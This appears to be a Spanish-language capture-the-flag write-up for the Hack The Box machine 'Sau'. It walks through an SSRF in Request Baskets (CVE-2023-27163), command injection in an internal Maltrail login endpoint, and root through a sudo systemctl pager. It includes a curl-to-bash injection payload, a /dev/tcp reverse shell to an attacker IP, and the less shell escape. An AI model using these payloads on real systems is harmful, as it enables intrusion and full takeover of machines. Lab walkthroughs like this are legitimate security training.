









# [Sau](https://www.hackthebox.com/machines/Sau)

> Linux · Easy · Hack The Box

## 1. Basic Information

- **Machine name:** Sau  
- **Platform:** Hack The Box  
- **IP:** 10.129.229.26
- **Operating System:** Ubuntu Linux  
- **Difficulty:** Easy  
- **Primary attack vector:** SSRF (CVE-2023-27163) chaining to command injection  
- **Initial access:** Unauthenticated OS command injection via Maltrail  
- **Privilege escalation:** Sudo misconfiguration  
- **Date:** 2026-01-26

## 2. Summary

Máquina Linux que expone un servicio Request Baskets vulnerable a SSRF mediante CVE-2023-27163, lo que permite interactuar con un servicio interno Maltrail. Dicho servicio es vulnerable a una inyección de comandos sin autenticación, lo que facilita la obtención de una reverse shell como el usuario *puma*. La escalada de privilegios se logra aprovechando una mala configuración de sudo.


## 3. Enumeration

### 3.1 Network discovery (Nmap)

Se realiza un escaneo completo de puertos TCP para identificar superficie de ataque y, después, un escaneo con detección de servicios/versiones sobre los puertos abiertos.

#### 3.1.1 Full port scan (TCP)

```bash
nmap -p- -sS --min-rate 5000 -Pn -n -vvv -oN iniScanSau.txt 10.129.229.26

PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
```

Los puertos **80/tcp y 8338/tcp** aparecen como _filtered_, lo que sugiere servicios protegidos por reglas de firewall o accesibles solo desde localhost.

#### 3.1.2 Service/version scan

```bash
nmap -p22,55555 -sCV -Pn -n -vvv -oN verScanSau.txt 10.129.47.125

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open HTTP  Requests Baskets (redirects to /web)
```

El escaneo de versiones revela **OpenSSH (22/tcp)** y una **aplicación web HTTP personalizada en el puerto 55555**, accesible mediante redirección a `/web`.

### 3.2 HTTP (55555/tcp)

El puerto **55555/tcp** expone una aplicación web accesible externamente. Un reconocimiento inicial confirma que el servicio corresponde a **Request Baskets**.

```bash
whatweb http://10.129.229.26:55555/web/

http://10.129.229.26:55555/web/ [301 Moved Permanently] Country[RESERVED][ZZ], IP[10.129.229.26], RedirectLocation[/web]
http://10.129.229.26:55555/web [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, IP[10.129.229.26], JQuery[3.2.1], PasswordField, Script, Title[Request Baskets]
```

Al acceder a la ruta `/web` se presenta la interfaz principal de la aplicación.
http://10.129.229.26:55555/web

La aplicación permite crear _baskets_, que actúan como endpoints HTTP personalizados para recibir y reenviar peticiones.





Al crear un basket de prueba (`mybasket`), se habilitan dos rutas principales:
* Panel de configuración: `/web/mybasket`
* Endpoint públic: `/mybasket`

http://10.129.229.26:55555/web/mybasket


## 4. Initial Access

### 4.1 SSRF – Request Baskets (CVE-2023-27163)

Request Baskets permite definir un destino al que se reenviarán las peticiones recibidas.  
Debido a una validación insuficiente del destino configurado, es posible abusar de esta funcionalidad para realizar **peticiones arbitrarias desde el servidor**, lo que constituye una vulnerabilidad de **Server-Side Request Forgery (SSRF)** documentada como **CVE-2023-27163**.

Mediante esta técnica se consigue acceder a servicios internos que no están expuestos directamente.



### 4.2 Pivoting a Maltrail (localhost)

Al reenviar peticiones internas a través del basket, se identifica un servicio web interno correspondiente a **Maltrail**, accesible únicamente desde localhost.

El endpoint `/mybasket/` actúa como proxy hacia el servicio interno, exponiendo la página de login de Maltrail.

http://10.129.229.26:55555/mybasket/


### 4.3 Unauthenticated Command Injection (Maltrail)

Maltrail expone un endpoint vulnerable a **inyección de comandos sin autenticación**, lo que permite ejecutar comandos arbitrarios en el sistema.

Para verificar la ejecución remota de comandos, se levanta un servidor HTTP local:

```bash
sudo python -m http.server 80
```

Desde el endpoint vulnerable se inyecta un comando que fuerza una petición HTTP hacia nuestra máquina:

```bash
curl "http://10.129.229.26:55555/mybasket/login" --data-urlencode 'username=;`curl 10.10.15.218`'
```



---

## 5. Foothold

Para obtener una shell interactiva, se prepara un script de reverse shell en la máquina atacante y se expone mediante un servidor HTTP.

```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.15.218/4444 0>&1
```

Se inicia un listener en la máquina atacante:

```bash
sudo nc -nlvp 4444
listening on [any] 4444 ...
```

Y se ejecuta la reverse shell desde Maltrail:

```bash
curl "http://10.129.229.26:55555/mybasket/login" \
  --data-urlencode 'username=;`curl 10.10.15.218 | bash`'
```

Se recibe una conexión entrante, obteniendo acceso como el usuario **puma**.  
Para mejorar la estabilidad de la shell, puede transformarse en una TTY interactiva siguiendo la guía: **[TTY Interactiva](/toolbox/tty-interactiva)**.

```bash
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```




## 6. Privilege Escalation

### 6.1 Sudo Misconfiguration

Se enumeran los privilegios de sudo disponibles para el usuario **puma**:

```bash
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

El usuario puede ejecutar `systemctl status` sobre el servicio `trail.service` sin necesidad de contraseña.

### 6.2 [Escalada a root](https://gtfobins.org/gtfobins/less/)

El comando `systemctl status` invoca un _pager_ interactivo (**less** por defecto), que permite ejecutar comandos del sistema. 

Este comportamiento puede abusarse para escalar privilegios, tal y como se documenta en **[GTFOBins – less](https://gtfobins.org/gtfobins/less/)**.


```bash
sudo /usr/bin/systemctl status trail.service
```



Desde el pager se obtiene una shell con privilegios de root mediante:

```bash
!/bin/bash
```


